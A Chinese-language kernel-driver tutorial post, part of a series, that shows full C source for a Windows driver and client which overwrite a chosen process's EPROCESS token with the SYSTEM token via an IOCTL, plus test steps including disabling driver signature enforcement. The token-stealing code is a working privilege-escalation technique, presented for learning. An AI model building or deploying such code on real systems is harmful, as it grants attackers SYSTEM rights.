


# 【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN

## 文章大綱
我們在[【第 05 話】傳送 IRP 到驅動程式](/asset/第%2005%20話)從應用程式傳送 IRP 到驅動程式，並在 Kernel 處理接收到的 IRP。這篇會以此為基礎，繼續多加 IOCTL 功能。從應用層傳送資料到 Kernel，並且在 Kernel 層提權。

實作的內容延續[【第 04 話】用 WinDbg 竄改 EPROCESS Token](/asset/第%2004%20話)，之前是用 WinDbg 竄改 EPROCESS Token，這篇則是要將這個步驟寫程式自動化。


## IOCTL
Windows 的 [IOCTL（Device Input and Output Control）](https://learn.microsoft.com/en-us/windows/win32/devio/device-input-and-output-control-ioctl-) 機制讓應用程式可以向驅動程式發送請求，執行特定的操作，例如讀取或寫入記憶體、設定參數或取得狀態資訊等等。

IOCTL 針對 [IRP_MJ_DEVICE_CONTROL](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/kernel/irp-mj-device-control)，提供一個介面讓作業系統與驅動程式溝通。下圖右下方可以看到開發者可以呼叫 [DeviceIoControl](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) 將資料傳入驅動程式。



參考 `DeviceIoControl` 的函數原型，開發者能夠傳入 IoControlCode（`dwIoControlCode`）、InputBuffer （`lpInBuffer`）、InputBufferLength （`nInBufferSize`）、OutputBuffer（`lpOutBuffer`）、OutputBufferLength（`nOutBufferSize`）。其中 IoControlCode 是開發者可以自己定義的，而在驅動程式中根據 IoControlCode 來決定要執行什麼功能。另外四個則代表輸入、輸入長度、輸出、輸出長度。
```c
BOOL DeviceIoControl(
  [in]                HANDLE       hDevice,
  [in]                DWORD        dwIoControlCode,
  [in, optional]      LPVOID       lpInBuffer,
  [in]                DWORD        nInBufferSize,
  [out, optional]     LPVOID       lpOutBuffer,
  [in]                DWORD        nOutBufferSize,
  [out, optional]     LPDWORD      lpBytesReturned,
  [in, out, optional] LPOVERLAPPED lpOverlapped
);
```

## 建立 Device 
跟[【第 05 話】傳送 IRP 到驅動程式](/asset/第%2005%20話)相比，我們只要多處理在接收到 `IRP_MJ_DEVICE_CONTROL` 時根據 IoControlCode 做對應的行為。



## 寫程式
程式會分為兩個部分，一個是驅動程式、一個是應用程式。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseEprocessToken)。

注意這個程式只是個學習範例，除了沒有做錯誤處理外，程式本身其實有漏洞，這部份會在之後的文章提及。

### 驅動程式
首先在 `DriverEntry` 定義好卸載函數、建立 Device、定義各 IRP 的處理函數，以及設定 `IRP_MJ_DEVICE_CONTROL` 的處理函數。
```c
extern NTSTATUS DriverEntry(PDRIVER_OBJECT driverObject, PUNICODE_STRING registryPath)
{
    UNREFERENCED_PARAMETER(registryPath);
    NTSTATUS status = STATUS_SUCCESS;

    // 要設定卸載函數驅動程式才能順利卸載
    driverObject->DriverUnload = DriverUnload;

    // 建立 Device 與對應的 Symbolic Link
    status = CreateDevice(driverObject);

    // 為需要用到的 IRP 定義處理函數
    driverObject->MajorFunction[IRP_MJ_CREATE] = Dispatcher;
    driverObject->MajorFunction[IRP_MJ_CLOSE] = Dispatcher;
    driverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = Dispatcher;

    return STATUS_SUCCESS;
}
```

在 IRP 的處理函數中，我們根據取得的 IRP 執行不同行為。如果是 `IRP_MJ_DEVICE_CONTROL`，則根據取得的 IoControlCode 做我們實作的功能，以這個範例來說就是竄改從應用程式傳來的 pid 的 EPROCESS Token 成 System 的 EPROCESS Token。
```c
#define ABUSE_EPROCESS_TOKEN CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS Dispatcher(PDEVICE_OBJECT pDeviceObject, PIRP pIrp)
{
    ULONG inputBufferLength = 0;
    ULONG outputBufferLength = 0;
    ULONG ioControlCode = 0;
    PEPROCESS pEprocess = NULL;
    PIO_STACK_LOCATION ioStackLocation = IoGetCurrentIrpStackLocation(pIrp);
    if (pDeviceObject != pDevice)
    {
        return STATUS_UNSUCCESSFUL;
    }

    // 根據 IRP 做對應的處理
    switch (ioStackLocation->MajorFunction)
    {
        case IRP_MJ_DEVICE_CONTROL:
            // 取得從應用程式傳來的資料
            inputBufferLength = ioStackLocation->Parameters.DeviceIoControl.InputBufferLength;
            outputBufferLength = ioStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
            ioControlCode = ioStackLocation->Parameters.DeviceIoControl.IoControlCode;
            HANDLE processId = *(HANDLE *)pIrp->AssociatedIrp.SystemBuffer;

            // 根據 IoControlCode 做對應處理
            switch (ioControlCode)
            {
                case ABUSE_EPROCESS_TOKEN:
                    // 取得 System (pid 4) 的 EPROCESS Token
                    PsLookupProcessByProcessId((HANDLE)4, &pEprocess);
                    DWORD64 systemToken = *(DWORD64 *)((DWORD64)pEprocess + 0x358);

                    // 把從應用程式傳來的 pid 的 EPROCESS Token 竄改成 System 的 EPROCESS Token
                    PsLookupProcessByProcessId(processId, &pEprocess);
                    *(DWORD64 *)((DWORD64)pEprocess + 0x358) = systemToken;
                    break;
                default:
                    break;
            }
            break;
        default:
            break;
    }

    pIrp->IoStatus.Status = STATUS_SUCCESS;
    pIrp->IoStatus.Information = outputBufferLength;
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}
```

### 應用程式
至於從應用層就是呼叫 `CreateFile` 取得 Device 的 Handle，然後呼叫 `DeviceIoControl` 將資料傳入驅動程式，也就是要竄改的目標 pid 的 EPROCESS Token 達到提權。
```c
#define SymLinkName L"\\\\.\\AbuseEprocessToken"
#define ABUSE_EPROCESS_TOKEN CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        std::cout << "CreateFile error: " << GetLastError() << std::endl;
        return 1;
    }

    DWORD dwWrite;
    DWORD ProcessId;
    std::cout << "Give me a pid: ";
    std::cin >> ProcessId;
    
    // 呼叫 DeviceIoControl 將資料傳入驅動程式，也就是要竄改的目標 pid 的 EPROCESS Token
    DeviceIoControl(hDevice, ABUSE_EPROCESS_TOKEN, &ProcessId, sizeof(ProcessId), NULL, 0, &dwWrite, NULL);
    
    CloseHandle(hDevice);

    return 0;
}
```


## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 開啟一個 cmd，再開啟 [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) 中的 procexp64.exe 確認 cmd 的 pid
2. 載入 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)
3. 執行 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe)，並輸入 cmd 的 pid，成功執行後輸入 `whoami` 會發現權限已經變成 `system` 了


## 參考資料
- [IRP](https://steward-fu.github.io/website/driver/wdm/cpp_ioctl.htm)
- [Writing a Windows Driver Model Driver: A Step-by-Step Guide](https://www.apriorit.com/dev-blog/791-driver-windows-driver-model)